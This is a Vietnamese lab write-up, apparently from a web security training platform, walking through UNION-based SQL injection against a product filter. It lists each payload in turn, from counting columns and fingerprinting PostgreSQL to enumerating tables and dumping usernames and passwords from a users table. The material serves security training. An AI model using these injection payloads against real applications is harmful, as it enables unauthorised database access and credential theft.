# Triển khai Lap
###### Trong các phòng thí nghiệm trước, chúng ta nhận thấy rằng bộ lọc danh mục sản phẩm dễ bị tấn công bởi SQL injection và truy vấn đang được phản ánh tới phản hồi của ứng dụng.
######  liệt kê số lượng cột trong bảng này thông qua mệnh đề UNION
###### `' UNION SELECT NULL,NULL,NULL-- -`

###### Khi chúng ta cố gắng chọn 3 cột, nó sẽ trả về trạng thái HTTP Lỗi máy chủ nội bộ 500, có nghĩa là bảng cơ sở dữ liệu này không có 3 cột.
###### thử với 2 cột.`' UNION SELECT NULL,NULL-- -`

###### ===>Không xuất hiện lỗi suy ra có 2 cột.
######  liệt kê cột nào chấp nhận kiểu dữ liệu chuỗi:`' UNION SELECT 'SQL Injection 1','SQL Injection 2'-- -`

###### Chúng ta có thể thấy rằng tất cả các cột đều chấp nhận kiểu dữ liệu chuỗi!
##### First column: Header
##### Second column: article content
######  tìm hiểu DBMS (Hệ thống quản lý cơ sở dữ liệu) nào đang sử dụng.`' UNION SELECT NULL,version()-- -`

###### Thông tin DBMS: PostgreSQL phiên bản 12.20
###### Mặc dù nền tảng lab đã cung cấp cho chúng ta tên bảng và tên cột, nhưng tôi muốn thực hành chèn SQL mà không cần bất kỳ thông tin nào trước.
###### liệt kê dữ liệu bảng hiện tại!
###### `' UNION SELECT NULL,datname FROM pg_database-- -`

###### ===>Databases: template1, academy_labs, postgres, template0
###### Có vẻ như Academy_labs là cơ sở dữ liệu hiện tại của chúng ta? Và kiểm tra xem nó có đúng không:`' UNION SELECT NULL,current_database()-- -`

###### liệt kê tất cả các tên bảng trong cơ sở dữ liệu này!
###### `' UNION SELECT NULL,table_name FROM information_schema.tables-- -`



######  liệt kê tên cột user
###### `' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'-- -`

###### liệt kê tất cả dữ liệu trong bảng này!
###### `' UNION SELECT username,password FROM users-- -`


